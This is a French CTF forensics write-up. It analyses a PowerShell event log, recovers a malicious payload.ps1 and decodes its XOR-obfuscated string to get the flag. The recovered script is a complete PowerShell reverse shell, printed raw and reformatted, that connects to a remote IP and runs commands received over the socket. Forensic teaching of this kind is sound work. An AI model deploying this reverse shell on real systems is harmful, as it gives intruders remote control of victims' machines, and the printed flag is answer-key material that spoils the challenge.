 # La gazette de Windows

Catégorie : Intro - forensics

## Énoncé

> Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.
>
> **SHA256(Microsoft-Windows-PowerShell%4Operational.evtx) = 770b92f7c98ffb708c3e364753ee4bb569ccc810dd5891cbaf1363c2063ddd78**

## Solve

On verifie l'intégrité du fichier de log :

```shell
sha256sum Microsoft-Windows-PowerShell4Operational.evtx | grep 770b92f7c98ffb708c3e364753ee4bb569ccc810dd5891cbaf1363c2063ddd78

770b92f7c98ffb708c3e364753ee4bb569ccc810dd5891cbaf1363c2063ddd78  Microsoft-Windows-PowerShell4Operational.evtx
```

On va utiliser l'outil [evtx](https://github.com/omerbenamram/evtx) pour parser les **.evtx** : 

```shell
./evtx_dump -o json Microsoft-Windows-PowerShell4Operational.evtx > powershell.json
```

On sait que des scripts powershell ont été exécutés, on va donc les chercher :

```shell
cat powershell.json| grep -i ".ps1"
      "ScriptBlockText": "if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'C:\\Users\\jmichel\\Downloads\\payload.ps1'"
      "Path": "C:\\Users\\jmichel\\Downloads\\payload.ps1",
      "Path": "C:\\Users\\jmichel\\Downloads\\payload.ps1",
      "Path": "C:\\Users\\jmichel\\Downloads\\payload.ps1",
```

Au record **1108**, le script `payload.ps1` est exécuté : 

```json
Record 1108
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "",
      "ScriptBlockId": "dcb325dd-1c30-46bd-8363-81083ac85323",
      "ScriptBlockText": "if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'C:\\Users\\jmichel\\Downloads\\payload.ps1'"
    },
```

Au record **1109**, on remarque que du powershell issu du script `payload.ps1` est exécuté :

```json
Record 1109
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "C:\\Users\\jmichel\\Downloads\\payload.ps1",
      "ScriptBlockId": "634cf5ca-b06b-4b5a-8354-c5ccd9d3c82a",
      "ScriptBlockText": "do {\r\n    Start-Sleep -Seconds 1\r\n     try{\r\n        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)\r\n    } catch {}\r\n} until ($TCPClient.Connected)\r\n$NetworkStream = $TCPClient.GetStream()\r\n$StreamWriter = New-Object IO.StreamWriter($NetworkStream)\r\nfunction WriteToStream ($String) {\r\n    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}\r\n    $StreamWriter.Write($String + 'SHELL> ')\r\n    $StreamWriter.Flush()\r\n}\r\n$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D\r\n$s = \"\"\r\nfor ($i = 0; $i -lt 72; $i++) {\r\n    $s += [char]([int]$l[$i] -bxor $i)\r\n}\r\nWriteToStream $s\r\nwhile(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {\r\n    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)\r\n    $Output = try {\r\n            Invoke-Expression $Command 2>&1 | Out-String\r\n        } catch {\r\n            $_ | Out-String\r\n        }\r\n    WriteToStream ($Output)\r\n}\r\n$StreamWriter.Close()"
    },
  }
}
```

On remet en forme le powershell pour plus de lisibilité :

```ps1
do {
    Start-Sleep -Seconds 1
    try {
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    }
    catch {
        # Silently catch exception
    }
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | $ {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D

$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}

WriteToStream $s

while (($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
        Invoke-Expression $Command 2>&1 | Out-String
    }
    catch {
        $_ | Out-String
    }
    WriteToStream $Output
}

$StreamWriter.Close()
```

Ce code PowerShell se connecte à un serveur distant à l'adresse IP `10.255.255.16` sur le port `1337` en utilisant le protocole TCP. Une fois la connexion établie, le code envoie une chaîne de caractères chiffré au serveur distant, qui est déchiffrée par le serveur. Ensuite, le code attend des commandes de l'utilisateur et les exécute sur le serveur distant.

On a ici un XOR de `$l`. Après l'exécution de la boucle for, la `$s` contiendra une chaîne de caractères résultant de l'opération XOR entre chaque élément de la liste `$l` et sa position dans la liste. Voici la valeur de `$s` :

```ps1
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D

$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}

Write-Output $s

FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}
```

**Flag : FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}**
